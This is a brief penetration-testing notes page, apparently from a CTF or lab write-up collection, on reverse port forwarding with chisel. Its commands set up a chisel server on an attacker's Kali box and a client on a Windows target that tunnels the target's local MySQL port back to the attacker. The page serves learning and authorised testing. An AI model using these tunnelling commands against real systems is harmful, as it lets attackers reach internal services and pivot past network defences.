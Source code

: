 # Chisel

## reverse port forwarding

Set up chisel on kali:

```
chisel server --socks5 --reverse
```

Set up chisel on target:

{% code overflow="wrap" %}
```
chisel.exe client --fingerprint HEoB1nCbMpJ7xkjsc3K1+OXhzX/LosSQH1N/D0xBXcU= 10.10.14.37:8080 R:1235:127.0.0.1:3306
```
{% endcode %}

* 10.10.14.37:8080 - kali ip and listening port
* R - Reverse mode
* R:1235:127.0.0.1:3306 - forwarding local port `3306` to port `1235` on Kali
  * Any connection made to `127.0.0.1:1235` on Kali gets tunneled to `127.0.0.1:3306` on the Windows machine.









{% embed url="https://medium.com/@gsanjay1708/pivoting-with-chisel-b5bbd8e1e92b" %}
